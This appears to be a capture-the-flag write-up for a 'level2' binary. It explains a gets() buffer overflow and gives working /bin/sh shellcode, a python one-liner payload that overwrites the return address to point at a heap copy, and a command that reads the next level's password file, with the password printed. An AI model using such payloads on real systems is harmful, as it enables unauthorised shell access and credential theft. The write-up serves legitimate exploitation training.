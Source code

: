 opening the program in a decompiler we can see it use gets which is vulnerable to a buffer overflow attack, we can use this to overwrite the return address of the function to the address of a function we put in memory, using the strdup the program is calling. (see source.c)
so basically, we will put in memory a shellcode that call "/bin/sh", then we will overwrite the return address to the address of the shellcode.
from https://dhavalkapil.com/blogs/Shellcode-Injection:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
using a decompiler, we can see the buffer is at base stack - 0x50 (80 in decimal), our shellcode is 25 char long, so we need to add 55 char to the shellcode to fill the buffer, then we need to overwrite the return address with the address of the shellcode.
the program checks is the return starts with 0xb, so we can't put it in the stack. but the program conveniently calls strdup, which allocates memory on the heap, so we can put the shellcode in the heap, then overwrite the return address with the address of the shellcode.

`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'a'*55 + '\x08\xa0\x04\x08'" > /tmp/a`
`cat /tmp/a - | ./level2`
and boom we can launch command as level3.
`cat /home/user/level3/.pass` -> `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
